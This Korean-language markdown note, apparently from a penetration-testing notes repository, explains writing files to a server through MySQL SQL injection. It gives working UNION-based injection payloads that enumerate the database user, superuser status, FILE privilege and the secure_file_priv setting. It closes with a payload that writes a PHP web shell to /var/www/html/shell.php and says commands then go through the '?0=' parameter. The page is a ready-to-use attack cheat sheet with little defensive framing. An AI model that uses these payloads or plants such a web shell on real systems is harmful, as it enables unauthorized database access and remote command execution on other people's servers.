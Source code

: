 MySQL을 이용해서 백엔드 서버에 파일 쓰기가 가능하기 위해서 필요한 3가지

1. FILE 권한이 있는 사용자
2. MySQL의 secure_file_priv 전역변수 비활성화
3. 백엔드 서버에서 쓰려는 위치에 대한 쓰기 액세스 권한

# 1. FILE 권한이 있는 사용자

### 현재 DB 사용자 조회

```
' UNION SELECT NULL, user(), NULL, NULL-- -
' UNION SELECT NULL, user, NULL, NULL from mysql.user-- -
```

설명: 현재 사용자가 루트로 조회된다면, 관리자(DBA) 권한이 있다는 뜻이다. 그리고 DBA가 있으면 파일 읽기 권한이 있을 확률이 훨씬 더 높다.

### 사용자 권한 조회

```
' UNION SELECT NULL, super_priv, NULL, NULL FROM mysql.user WHERE user="root"-- -
```

설명1: 현재 사용자가 root@localhost 일 때를 기준으로 작성 됨<br>
설명2: 만약에 Y가 반환된다면, 슈퍼 유저라는 의미

### 현재 사용자의 모든 권한 조회

```
' UNION SELECT NULL, grantee, privilege_type, NULL FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

설명1: 현재 사용자가 root@localhost 일 때를 기준으로 작성 됨<br>
설명2: 만약에 FILE이 출력된다면, 파일을 읽을 수 있고 잠재적으로 파일을 쓸 수도 있음을 의미

# 2. MySQL의 secure_file_priv 전역변수 비활성화 확인

```
' UNION SELECT NULL, variable_name, variable_value, NULL FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

설명: SECURE_FILE_PRIV값만 나오고 그 다음 컬럼에 variable_value의 값이 비어있으면 모든 위치에서 파일을 읽고 쓸 수 있음을 의미

# 웹셸 업로드

```
' union select NULL, '<?php system($_REQUEST[0]); ?>', NULL, NULL into outfile '/var/www/html/shell.php'-- -
```

설명: 이후, 해당 페이지에서 ?0= 뒤에 명령어 입력
